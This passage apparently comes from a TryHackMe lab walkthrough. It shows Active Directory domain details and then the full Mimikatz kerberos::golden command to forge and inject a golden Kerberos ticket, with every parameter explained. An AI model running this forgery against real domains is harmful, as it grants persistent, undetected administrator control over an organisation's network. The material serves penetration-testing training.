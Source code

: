 ```powershell
ManagedBy                          :
Name                               : za
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc
```

Now that we have all the required information, we can relaunch Mimikatz:

- **Terminal**      

```powershell
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 

mimikatz #
```

Once Mimikatz is loaded, perform the following to generate a golden ticket:

- **Mimikatz Terminal**      

```powershell
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```

Parameters explained:

- **/admin** - The username we want to impersonate. This does not have to be a valid user.
- **/domain** - The FQDN of the domain we want to generate the ticket for.
- **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID. 
- **/sid** -The SID of the domain we want to generate the ticket for.
- **/krbtgt** -The NTLM hash of the KRBTGT account.
- **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is  valid for 10 years. The default Kerberos policy of AD is 10 hours (600  minutes)
- **/renewmax** -The maximum ticket lifetime with  renewal. By default, Mimikatz generates a ticket that is valid for 10  years. The default Kerberos policy of AD is 7 days (10080 minutes)
- **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
